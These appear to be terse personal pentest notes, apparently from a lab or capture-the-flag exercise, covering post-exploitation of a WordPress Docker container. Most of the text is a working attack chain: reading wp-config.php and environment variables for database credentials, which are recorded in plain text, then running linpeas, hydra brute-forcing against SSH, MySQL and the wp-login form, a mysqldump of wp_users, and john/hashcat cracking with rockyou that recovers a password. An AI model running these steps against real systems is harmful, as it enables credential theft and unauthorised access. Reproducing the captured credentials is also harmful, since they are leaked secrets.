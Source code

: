                   - no there's no python
                  - and no /home users. 
                  - I don't care all I want is /var/www/html/wp-config.php
                    - maybe users cred's cached or stored or mysql creds 
                    - secretkey looks md5, SHA1 > john > X   
                  - and I can get actual dir lists > vuln exploit possible
                    - no I don't need web vulns, creds 
                    
#### Default path to check credential 
In wp-config.php you can find the root password of the database.
Default login paths to check: /wp-login.php, /wp-login/, /wp-admin/, /wp-admin.php, /login/
  - nothing but it's worthy to look it up

even though you're in www-data docker, 
you need to run linpeas.sh
  linpeas.sh upload and execute

env
  MYSQL_ENV_GPG_KEYS 177F4010FE56CA3336300305F1656F24C74CD1D8 
  MYSQL_ENV_MYSQL_USER=dbadmin
  wordpress db password = Ba2k3t
  MYSQL_PORT_3306_TCP=tcp://172.17.0.2:3306
  MYSQL_NAME=/wpcontainer/mysql
  GPG_KEYS=42670A7FE4D0441C8E4632349E4FDC074A4EF02D 5A52880781F755608BF815FC910DEB46F53EA312
  
  Mysql : User - dbadmin:Ba2k3t, root:root-password > 
    hydra -L userlist.txt -P password.txt ssh://172.31.183.73 -V -s 22
    hydra -L userlist.txt -P password.txt mysql://172.31.183.73 -V -s 3306
    X
 
    mysql upload? 
    mysql -u root -p -h 172.31.183.73
      password

    no need to copy and parse > mysql dump
    mysqldump -u dbadmin -p'Ba2k3t' -h 172.31.239.138 wpdb wp_users > wp_users.sql.dump
    `cat wp_users.sql.dump | grep '(' | tail -n 7 | cut -d "'" -f 4 > db.hash`
    john --wordlist=/usr/share/wordlists/rockyou.txt db.hash
      lag too much
      hashcat -a 0 -m 0 -o hashcat.output --outfile-format 2 db.hash /usr/share/wordlists/rockyou.txt
      `loveme2`
        hydra -L userlist.txt -p 'loveme2' ssh://172.31.183.73 -V -s 22 
          X
        hydra -L userlist.txt -p 'loveme2' mysql://172.31.183.73 -V -s 3306 
        how to convert usernames into uppercase for first character?
          What should I do with this ? let's login in wordpress for now
          hydra -L userlist.txt -p 'loveme2' 172.31.183.73 -s 8081 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:incorrect" -V
            it says uppercase doesn't matter. galdalf:loveme2


    

      or you can `mysql -u <user> -p <database> --execute="SELECT * FROM sometable" -X > out.xml`
      ssh hydra but I think apply both of Capital character or non-Capial one.  
